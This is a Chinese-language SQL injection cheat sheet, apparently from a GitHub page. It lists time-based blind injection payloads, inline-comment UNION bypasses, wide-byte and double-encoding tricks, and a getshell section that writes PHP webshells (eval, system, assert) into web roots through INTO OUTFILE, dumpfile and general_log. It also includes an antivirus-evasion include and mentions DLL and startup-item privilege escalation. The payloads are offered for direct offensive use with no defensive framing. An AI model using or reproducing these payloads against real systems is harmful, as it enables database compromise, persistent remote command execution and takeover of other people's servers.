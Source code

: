 ```
# 基本延时注入
select * from user where id='1' or sleep(3) %23
# 如果长度大于10，则睡3秒，其他则0秒
select * from user where id= 1 and if(length(version())>10,sleep(3),0);
# case定义条件，when 后面的1表示ture也代表真，当条件为真时，睡3秒，其他则0秒
select * from user where id= 1 and case length(version())>10 when 1 then sleep(3) else 0 end;
```
#### 内联注入

```
id=-1 /*!UNION*/ /*!SELECT*/ 1,2,3
# 利用别名
union select 1,2,3,4,a.id,b.id,* from(sys_admin as a inner join sys_admin as b on a.id=b.id)
```

#### getshell
获取路径  
@@basedir  
@@datadir  
默认mysql文件导入导出为不允许的  
查看配置 show variables like '%secure%';  
secure_file_prive=null  不允许导入导出    

outfile和dumpfile的区别：  
outfile适合导库，在行末尾会写入新行并转义，因此不能写入二进制可执行文件。dumpfile只能执行一行数据。  
LPK.dll提权，写启动项提权
[综合利用脚本](https://github.com/v5est0r/Python_FuckMySQL)
```
# 假设网站目录在C:/work/WWW/下
select '<?php @eval($_POST[k]);?>'INTO OUTFILE 'C:/work/WWW/shell.php'；
# 未关闭系统函数的情况下<?php echo \'<pre>\';system($_GET[\'cmd\']); echo \'</pre>\'; ?> 
# linux下也可以写入<? system($_GET[\'c\']); ?>
# 过杀软 <?php include 'shell.jpg' ?>
select unhex('十六进制字符串') into dumpfile 'c:/work/WWW/shell.php'
```

通过程序报错、phpinfo函数、程序配置表等直接获取网站真实路径，有些网站前期已经被人渗透过，因此在目录下留有后门文件通过load_file直接读取。

如果global general_log='on'也可通过修改配置来获取shell

```
SET global general_log='on';
SET global general_log_file='D:/phpStudy/WWW/cmd.php';
#只需查询
SELECT '<?php assert($_POST["cmd"]);?>';
```

#### 宽字节注入
当编码位gbk时，%df%27或%81%27数据为空

#### 二次编码注入
代码中有urldecode() 函数  
%2527    先解码成%27再解码成'单引号
